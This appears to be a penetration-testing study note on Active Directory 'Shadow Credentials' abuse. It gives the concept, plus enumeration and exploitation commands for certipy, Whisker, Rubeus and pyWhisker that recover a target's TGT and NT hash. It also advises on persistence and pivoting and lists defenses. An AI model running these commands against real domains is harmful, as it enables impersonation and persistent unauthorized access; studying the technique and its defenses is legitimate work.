

# 06 - Shadow Credentials (msDS-KeyCredentialLink) Abuse

## 1. Executive Summary

"Shadow Credentials" abuse the **`msDS-KeyCredentialLink`** attribute — the same attribute Windows Hello for Business uses to bind a public key to an account for **PKINIT** (certificate-less Kerberos). If you have **write access to that attribute** on a target user/computer (via GenericWrite/GenericAll/WriteProperty), you add **your own** key credential, then request a TGT via PKINIT and recover the target's NT hash with **UnPAC-the-hash** — impersonating them **without changing their password** and stealthily (you can remove the entry afterward). It's the go-to "I have write over this object" → "I am this object" primitive.

## 2. Concept Overview

`msDS-KeyCredentialLink` holds **KeyCredential** (NGC) entries: a public key + device GUID. The KDC will issue a TGT to anyone proving possession of a private key whose public half is listed. So writing an attacker-controlled key = an alternate credential. Requires the domain to support PKINIT (a CA / DC certs present — true in most domains with AD CS or even just DC certs).

## 3. Enumeration

```bash
# Do I have write over the target's attributes? (BloodHound: GenericWrite/GenericAll/WriteProperty)
certipy shadow auto -u user@domain -p pw -account <target> -dc-ip <dc>   # checks+does it
# Manual read
Get-ADComputer <target> -Properties msDS-KeyCredentialLink
```

## 4. Exploitation

```bash
# Certipy (Linux) — add key, PKINIT, recover NT hash, cleanup
certipy shadow auto -u attacker@domain -p pw -account 'TARGET$' -dc-ip <dc>
#   → writes KeyCredential, gets TGT via PKINIT, prints NT hash, restores attribute

# Whisker (Windows) + Rubeus
Whisker.exe add /target:TARGET$ /domain:domain /dc:dc01
Rubeus.exe asktgt /user:TARGET$ /certificate:<b64> /password:<pfxpw> /getcredentials
Whisker.exe clear /target:TARGET$        # remove the shadow cred (cleanup)

# pyWhisker (Linux)
pywhisker.py -d domain -u user -p pw --target 'TARGET$' --action add
```
Result: a TGT and NT hash for the target → PtH / S4U / DCSync depending on the target's rights.

## 5. Mermaid Attack Flow



## 6. Persistence
- Leave a key credential in place on a target you want durable access to (re-auth anytime, no password needed) — survives password resets.

## 7. Post-Exploitation / Data Access
- Full impersonation of the target (hash + TGT) → whatever it can access.
- Common pivot: write over a **computer** object → shadow cred → local admin via RBCD/S4U.

## 8. Defense & Hardening
1. Restrict write access (GenericWrite/GenericAll/WriteProperty) to `msDS-KeyCredentialLink` — audit ACLs across users/computers (BloodHound `AddKeyCredentialLink` edge).
2. Monitor changes to `msDS-KeyCredentialLink` (event 5136 on the attribute); deploy Windows Hello for Business carefully so legitimate writes are distinguishable.
3. Enforce KB5014754 strong certificate mapping; protect Tier-0 objects from delegated write.

## 9. Chaining & Related Notes
- The universal "object write → object compromise" step; feeds RBCD ([[07 - Resource-Based Constrained Delegation Abuse]]), DCSync, PtH. Alternative to password reset when you hold GenericWrite (quieter, reversible).
- ACL source of the write: **[[17 - ACL Abuse]]** (A-36). Cert/PKINIT context: **[[05 - AD CS Certificate Theft Golden Certificate and Persistence]]**.
- Downstream: **[[07 - Resource-Based Constrained Delegation Abuse]]**, **[[15 - DCSync Attack]]** (A-36).

## 10. Tools
`certipy shadow`, `Whisker`, `pyWhisker`, `Rubeus`, `BloodHound`.
